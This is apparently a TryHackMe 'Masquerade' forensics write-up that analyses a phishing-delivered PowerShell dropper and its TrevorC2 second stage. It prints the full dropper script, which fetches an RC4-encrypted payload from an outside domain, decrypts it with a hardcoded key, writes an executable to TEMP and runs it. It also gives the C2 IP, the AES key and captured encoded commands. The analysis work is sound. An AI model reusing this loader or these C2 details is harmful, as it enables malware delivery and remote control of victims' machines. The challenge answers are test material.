









# TryHackMe: Masquerade Room Writeup

[](https://tryhackme.com/room/masquerade)
[](#)

> Room Link → [Masquerade](https://tryhackme.com/room/masquerade)

## Task 1

Jim from the Finance department received an email that appeared to come from the company’s system administrator, asking him to run a script to “**apply critical security updates**.” Trusting the message, Jim executed the script on his workstation. Shortly after, unusual network traffic and system activity were observed. You have been provided with relevant artifacts to investigate what happened, determine the impact, and identify how the attacker established control over the system.

**Important!**: These artifacts contain **real malware;** however, the challenge can be completed entirely through , and there is no need to run or execute any of the files. Despite that, analysis should still be conducted in a **controlled environment** such as a virtual machine.

---

## Task 2

**Good Luck Detective!**

**Answer the questions below**

> [!NOTE]
> For `.evtx` analysis I am using this tool [EvtxECmd](https://github.com/EricZimmerman/evtx)

```shell
EvtxECmd version 1.5.2.0

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/evtx

Command line: -f ..\Powershell-Operational.evtx --json jsonout

Warning: Administrator privileges not found!

Path to jsonout doesn't exist. Creating...
json output will be saved to jsonout\20260420091356_EvtxECmd_Output.json

Maps loaded: 453

Processing PathToYourFile\Powershell-Operational.evtx...
Chunk count: 1, Iterating records...

Event log details
Flags: None
Chunk count: 1
Stored/Calculated CRC: 150695D1/150695D1
Earliest timestamp: 2026-04-10 05:28:02.2222996
Latest timestamp:   2026-04-10 05:28:23.5908129
Total event log records found: 7

Records included: 7 Errors: 0 Events dropped: 0

Metrics (including dropped events)
Event ID        Count
4104            4
40961           1
40962           1
53504           1

Processed 1 file in 0.7323 seconds
```

### Q.1 What external domain was contacted during script execution?

—→ `api-edgecloud.xyz`
Check the `.pcapng` file logs for HTTP requests

```js
GET /amd.bin HTTP/1.1
Host: api-edgecloud.xyz
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.2
Date: Fri, 10 Apr 2026 05:28:23 GMT
Content-type: application/octet-stream
Content-Length: 18432
Last-Modified: Fri, 10 Apr 2026 05:24:11 GMT
```

> Or you can simply make use of `EvtxECmd` to into the .`evtx` file in `json` format and you'll this payload which requests a script from this domain.
>
> ```shell
> $h = (New-Object System.Net.WebClient).DownloadString((-join('ht','tp','://','api-edg','e','cl','oud.xy','z/amd.bi','n'))) -replace ('\\'+'s'),''
> ```

After merging the text you can see the link as `http://api-edgecloud.xyz/amd.bin` so our domain is `api-edgecloud.xyz`

### Q2. What encryption algorithm was used by the script?

—→ `RC4`

> Use `EvetxECmd` to check the logs into `json` you'll see this payload

```json
{
  "PayloadData1": "Path: C:\\Users\\jim\\Downloads\\updates.ps1",
  "PayloadData2": "ScriptBlockText: $k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s')), $h = (New-Object System.Net.WebClient).DownloadString((-join('ht','tp','://','api-edg','e','cl','oud.xy','z/amd.bi','n'))) -replace ('\\'+'s'),'', $b = for($x=0; $x -lt $h.Length; $x+=2) { [Convert]::ToByte($h.Substring($x, 2), 16) }, $s = 0..255, $j = 0, for ($i = 0; $i -lt 256; $i++) {,     $j = ($j + $s[$i] + $k[$i % $k.Count]) % 256,     $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp, }, $i = $j = 0, $d = foreach ($byte in $b) {,     $i = ($i + 1) % 256,     $j = ($j + $s[$i]) % 256,     $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp,     $byte -bxor $s[($s[$i] + $s[$j]) % 256], }, $p = $env:TEMP + '\\amdfendrsr.exe', [System.IO.File]::WriteAllBytes($p, $d), Start-Process $p",
  "MapDescription": "Contains contents of scripts run",
  "ChunkNumber": 0,
  "Computer": "DESKTOP-I6C5C7M",
  "Payload": "{\"EventData\":{\"Data\":[{\"@Name\":\"MessageNumber\",\"#text\":\"1\"},{\"@Name\":\"MessageTotal\",\"#text\":\"1\"},{\"@Name\":\"ScriptBlockText\",\"#text\":\"$k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s')), $h = (New-Object System.Net.WebClient).DownloadString((-join('ht','tp','://','api-edg','e','cl','oud.xy','z/amd.bi','n'))) -replace ('\\\\'+'s'),'', $b = for($x=0; $x -lt $h.Length; $x+=2) { [Convert]::ToByte($h.Substring($x, 2), 16) }, $s = 0..255, $j = 0, for ($i = 0; $i -lt 256; $i++) {,     $j = ($j + $s[$i] + $k[$i % $k.Count]) % 256,     $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp, }, $i = $j = 0, $d = foreach ($byte in $b) {,     $i = ($i + 1) % 256,     $j = ($j + $s[$i]) % 256,     $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp,     $byte -bxor $s[($s[$i] + $s[$j]) % 256], }, $p = $env:TEMP + '\\\\amdfendrsr.exe', [System.IO.File]::WriteAllBytes($p, $d), Start-Process $p\"},{\"@Name\":\"ScriptBlockId\",\"#text\":\"f3e51d8b-a580-40a4-ab12-4384c40ca729\"},{\"@Name\":\"Path\",\"#text\":\"C:\\\\Users\\\\jim\\\\Downloads\\\\updates.ps1\"}]}}",
  "UserId": "S-1-5-21-753961636-1548247123-2641200033-1001",
  "Channel": "Microsoft-Windows-PowerShell/Operational",
  "Provider": "Microsoft-Windows-PowerShell",
  "EventId": 4104,
  "EventRecordId": "45",
  "ProcessId": 4444,
  "ThreadId": 2780,
  "Level": "Verbose",
  "Keywords": "0x0",
  "SourceFile": "YourPathToFile\\Powershell-Operational.evtx",
  "ExtraDataOffset": 0,
  "HiddenRecord": false,
  "TimeCreated": "2026-04-10T05:28:23.2185308+00:00",
  "RecordNumber": 6
}
```

The script `updates.ps1` (run by user **`jim`**) does the following:

1. Downloads an encrypted payload from a remote server.
2. Decrypts it using a simple RC4-like stream cipher (with a hardcoded key).
3. Writes the decrypted binary to `%TEMP%\amdfendrsr.exe`.
4. Executes that executable.

##### Here's a more cleaner and formatted version of the payload

```shell
# 1. Define the RC4 key (split and concatenated to avoid simple string detection)
$k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s'))

# 2. Download the payload from this URL and remove all whitespace
$h = (New-Object System.Net.WebClient).DownloadString(
    (-join('ht','tp','://','api-edg','e','cl','oud.xy','z/amd.bi','n'))
) -replace ('\\'+'s'),''

# 3. Convert the downloaded hex string into a byte array
$b = for($x=0; $x -lt $h.Length; $x+=2) {
    [Convert]::ToByte($h.Substring($x, 2), 16)
}

# 4. RC4 Key Scheduling Algorithm (KSA)
$s = 0..255
$j = 0
for ($i = 0; $i -lt 256; $i++) {
    $j = ($j + $s[$i] + $k[$i % $k.Count]) % 256
    $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
}

# 5. RC4 Pseudo-Random Generation Algorithm (PRGA) + XOR decryption
$i = $j = 0
$d = foreach ($byte in $b) {
    $i = ($i + 1) % 256
    $j = ($j + $s[$i]) % 256
    $temp = $s[$i]; $s[$i] = $s[$j]; $s[$j] = $temp
    $byte -bxor $s[($s[$i] + $s[$j]) % 256]
}

# 6. Drop and execute the decrypted binary
$p = $env:TEMP + '\\amdfendrsr.exe'
[System.IO.File]::WriteAllBytes($p, $d)
Start-Process $p
```

| Part                  | Purpose                                                                                 |
| --------------------- | --------------------------------------------------------------------------------------- |
| Key construction      | `X9vT3pL2QwE8xR6ZkYhC4s` – RC4 key (obfuscated by string concatenation)                 |
| URL construction      | `http://api-edgecloud.xyz/amd.bin` – downloads the encrypted payload                    |
| `-replace ('\\s','')` | Removes all whitespace from the downloaded data (it's delivered as one long hex string) |
| Hex to bytes          | Converts the hex string into raw bytes                                                  |
| RC4 implementation    | Standard RC4 decryption routine                                                         |
| Dropper               | Saves the result as `amdfendrsr.exe` in the Temp folder                                 |
| Execution             | Runs the dropped executable                                                             |

### Q3. What key was used to decrypt the second-stage payload?

—→ `X9vT3pL2QwE8xR6ZkYhC4s`

> See the Table above the key is hardcoded into the payload for decryption.

```shell
$k = [System.Text.Encoding]::UTF8.GetBytes(('X9vT3pL'+'2QwE'+'8xR6'+'ZkYhC4'+'s'))
```

### Q4. What was the timestamp of the server response containing the payload?

—→ `Fri, 10 Apr 2026 05:28:23 GMT`
Open the `traffic.pcapng` file into `wireshark`
In the logs we need to fine request related to `amd.bin` so we search with a pattern

```shell
http.host contains "api-edgecloud.xyz" || http.request.uri contains "amd.bin"
```



Thus we got our timestamp `Fri, 10 Apr 2026 05:28:23 GMT`.

### Q5. What is the SHA-256 hash of the extracted and decrypted payload?

—→ `e3d39d42df63c6874780737244370ba517820f598fd2443e47ff6580f10c17cb`

To find the `SHA-256` hash of the extracted and decrypted payload (aka `amd.bin`) we need to follow the given steps

1. **In Wireshark**, find the **HTTP 200 OK** response packet (the one with the binary content).
   > [!TIP]
   > We have the pattern from the previous question so we need to follow the TCP stream of `GET /amd.bin HTTP/1.1` as the payload is being delivered.
1. Right-click on that packet → **Follow → TCP Stream**
1. In the Follow TCP Stream window:
   - ONLY COPY THE PAYLOAD HEX -- exclude the header
   - save it to any text file
1. Go to `cyberchef` and check if the hex is our executable or not (Just to confirm 😁)
1. Add the decryption key `X9vT3pL2QwE8xR6ZkYhC4s` into the RC4 passphrase
   

1. Get the hash
   

> Thus we got the hash of the decrypted file
> `e3d39d42df63c6874780737244370ba517820f598fd2443e47ff6580f10c17cb`

---

> [!IMPORTANT]
> Save the RC4 decrypted file as the upcoming questions will need it.
> You can save it as any filename I'll save it as the attacker preferred meaning i'll give it name `amdfendrsr.exe`.



> [!WARNING]
> Please be very careful with the executable as it contains a **_REAL MALWARE_** it may hurt your system
> You can see on [virustotal](https://www.virustotal.com/gui/file/e3d39d42df63c6874780737244370ba517820f598fd2443e47ff6580f10c17cb) about it
>
> 

---

### Q6. What remote URL did the client use to communicate with the victim machine?

—→ `http://34.174.57.99`
Now we need to find any URL related string in the exe.

```shell
└─$ strings amdfendrsr.exe| grep -E "http|https|\.xyz|\.net|\.top|api|cloud"
<>9__18_0<Main>b__18_0IEnumerable`1time_interval1Int32Func`2time_interval2get_UTF8<>9<Module>STUBQUERY_STRINGSITE_URLSystem.IOCIPHERget_IVset_IVencryptedStringWithIVSITE_PATH_QUERYROOT_PATH_QUERYmscorlib<>cSystem.Collections.GenericThreadAddSHA256ManagedAesManagedSystem.Collections.SpecializedReadToEndset_Methodset_ModePaddingModeCipherModeTakeEnumerableConsoleset_FileNameget_MachineNamecomputerNameWriteLineWhereSystem.CoreWebResponseGetResponseCreateEmbeddedAttributeCompilerGeneratedAttributeAttributeUsageAttributeDebuggableAttributeRefSafetyRulesAttributeCompilationRelaxationsAttributeRuntimeCompatibilityAttributeset_UseShellExecuteset_KeepAliveProgram.exeset_BlockSizeset_KeySizeSystem.Threadingset_PaddingEncodingFromBase64StringToBase64StringunencryptedStringGetStringDecryptStringEncryptStringrngComputeHashStartsWithTransformFinalBlockRandomIntervalGetResponseStreamProgramSystemSymmetricAlgorithmHashAlgorithmTrimRandomICryptoTransformMainVersionNameValueCollectionWebHeaderCollectionExceptionget_StartInfoProcessStartInfoSleepSystem.LinqCharStreamReaderTextReaderset_CookieContainer.ctortime_factor.cctorCreateDecryptorCreateEncryptorConnectTrevorSystem.DiagnosticsSystem.Runtime.CompilerServicesDebuggingModesGetBytesargsMicrosoft.CodeAnalysisContainsStringSplitOptionsget_HeadersProcessAttributeTargetsset_ArgumentsConcatFormatCreateAesManagedObjectSystem.NetSplitWaitForExitFirstOrDefaultset_UserAgentTrevorC2ClientEnvironmentStartConvertHttpWebRequestget_StandardOutputset_RedirectStandardOutputNextSystem.TextxToArrayset_KeyCreateAesKeykeySystem.Security.Cryptographyop_EqualityEM4squ3r4d3Th3P4ck3tSt34lthM0d31337%magic_hostname={0}Ahttp://34.174.57.99/images?guid=
identity3[*] Cannot connect to {0}'http://34.174.57.99E[*] Trying again in {0} seconds...)http://34.174.57.99/
&http://34.174.57.99
```

And we see our remote URL `http://34.174.57.99/`

### Q7. Which encryption key and algorithm does the client use?

—→ `M4squ3r4d3Th3P4ck3tSt34lthM0d31337, AES`

Looking at the string I saw this one

```shell
└─$ strings amdfendrsr.exe | grep -E -i "AES|RC4|ChaCha|Salsa|XOR|encrypt|decrypt|key|Crypt"
<>9__18_0<Main>b__18_0IEnumerable`1time_interval1Int32Func`2time_interval2get_UTF8<>9<Module>STUBQUERY_STRINGSITE_URLSystem.IOCIPHERget_IVset_IVencryptedStringWithIVSITE_PATH_QUERYROOT_PATH_QUERYmscorlib<>cSystem.Collections.GenericThreadAddSHA256ManagedAesManagedSystem.Collections.SpecializedReadToEndset_Methodset_ModePaddingModeCipherModeTakeEnumerableConsoleset_FileNameget_MachineNamecomputerNameWriteLineWhereSystem.CoreWebResponseGetResponseCreateEmbeddedAttributeCompilerGeneratedAttributeAttributeUsageAttributeDebuggableAttributeRefSafetyRulesAttributeCompilationRelaxationsAttributeRuntimeCompatibilityAttributeset_UseShellExecuteset_KeepAliveProgram.exeset_BlockSizeset_KeySizeSystem.Threadingset_PaddingEncodingFromBase64StringToBase64StringunencryptedStringGetStringDecryptStringEncryptStringrngComputeHashStartsWithTransformFinalBlockRandomIntervalGetResponseStreamProgramSystemSymmetricAlgorithmHashAlgorithmTrimRandomICryptoTransformMainVersionNameValueCollectionWebHeaderCollectionExceptionget_StartInfoProcessStartInfoSleepSystem.LinqCharStreamReaderTextReaderset_CookieContainer.ctortime_factor.cctorCreateDecryptorCreateEncryptorConnectTrevorSystem.DiagnosticsSystem.Runtime.CompilerServicesDebuggingModesGetBytesargsMicrosoft.CodeAnalysisContainsStringSplitOptionsget_HeadersProcessAttributeTargetsset_ArgumentsConcatFormatCreateAesManagedObjectSystem.NetSplitWaitForExitFirstOrDefaultset_UserAgentTrevorC2ClientEnvironmentStartConvertHttpWebRequestget_StandardOutputset_RedirectStandardOutputNextSystem.TextxToArrayset_KeyCreateAesKeykeySystem.Security.Cryptographyop_EqualityEM4squ3r4d3Th3P4ck3tSt34lthM0d31337%magic_hostname={0}Ahttp://34.174.57.99/images?guid=
```

> Cryptographyop_EqualityEM4squ3r4d3Th3P4ck3tSt34lthM0d31337%magic_hostname=

#### Breakdown:

- **Algorithm**: **AES** (specifically `AesManaged`)
- **Key**: `M4squ3r4d3Th3P4ck3tSt34lthM0d31337`
- Mode & Padding are default (most likely CBC + PKCS7, common with `AesManaged`)
  This string is the hardcoded encryption key used by the malware (`amdfendrsr.exe`) for C2 communication.

We can see that this is our encryption key and the algorithm can be seen as `AES` so our answer is

> `M4squ3r4d3Th3P4ck3tSt34lthM0d31337, AES`

### Q8. After determining the client's encryption, decrypt the commands the attacker executed on the victim and submit the flag.

—→ `THM{m45k3d_..........} `

We now know the client's encryption so we can now decrypt the commands the attacker executed on their system to get the Final Flag.

We can search for `34.174.57.99` IP in `wireshark` to see which encoded commands the attacker has used.

After a **LOT of WORK** we got four encoded strings

```text
base64 1:
c09Gc3pZOGRaOGF6MWo4bUNKM0tGUktFK2t2b3dOOEtQR2hhWUF0VVlhcUdwWjl4RGJHNXR1UnkyRzdOTXptdQ==

base64 2:
UVRNZUdTS0ozRzRaUGNlaGhLRUd0aXl2R3Zub2N2YW5UZTh3ZmorMEx1WXBPdEIvL1BSSzZ1RW5oN0EvMTIxRUJ3Z3NQZk5Yb2d0VUYxOTV0MFZ1SUZDZ1cwcnRHYzlCYlFLK1NzTWd1NVE9

base64 3:
K2FZUkhHSUlLRDJsNlZ1K3NGcUtqS3U3ZlJPN1FJdDdsSlUwSzNTbithaTBOQ2gwNEs1ZjhiSklET3NuaTVKYlk3TXZYem1Rd05nVWlDV2tCbzVhTGswaTRGZ2pjUzJVMWt0aHFSL3JvUTFVUUZWMVBnRVZmdGt6ajF3OXdmaXI1clBRYzFMQkRYR1V1Q2o2WDVKWFN6bnl3bVhJZE9uR01GQ0d3OFd5dGh6WGsyU2t6TnphcC82cHE0NUhYMTVESkxQOEM5cXJXTTdZUmt6aEJrb0JpQi90RUJKWm1YWUV1ODJpYkUzN0FwQVBidzVxZlhtVlVBNUVrZE5SUGpoaDhkYm1ZQjhmOGhObmFaVmx0a2tCUmZIa2s1a1N4S1ZqbTRjdkhGSXJrVHkrQ2cyZUdKd0NaOGFzRFNGYmQ0YVc1S29aWXBLZkMrYmYzaEp3Mnk3OWdIR0lEejY2NUs4dTRuT3YvWVBZZUJCVWVuTVR3Q3FGNXRDM1Z0UTlyYXdPVlBvOEtVZ0JRWnJmVGZEUEJmRTdvZmtGY0NxY05rMmxHQ2lMZnowSlVxNEdaR1IvVFNyclJiTHhNakhTK3RDeUFsVjNkdHJHSEhJUy95aUNQZDA3dDErUUJSbHJRSHdQcGlPTTlCMVgvZisyTDQyTENObXp1aGJ4bFlOL0JCbjJBL1lyZjNmejZrVXp5Y1VVQXVKNVR3TENjTm0yRHFGajdBU1dOVCs3ZUFVQldBWFNGdllsQTdHOGxMVTNPeEppNWVxWGxKZ204ZSttTkVwM0RSQkYyMjAxOVBpYnFtcDFsRjJLcXFBdncxOTZETGpa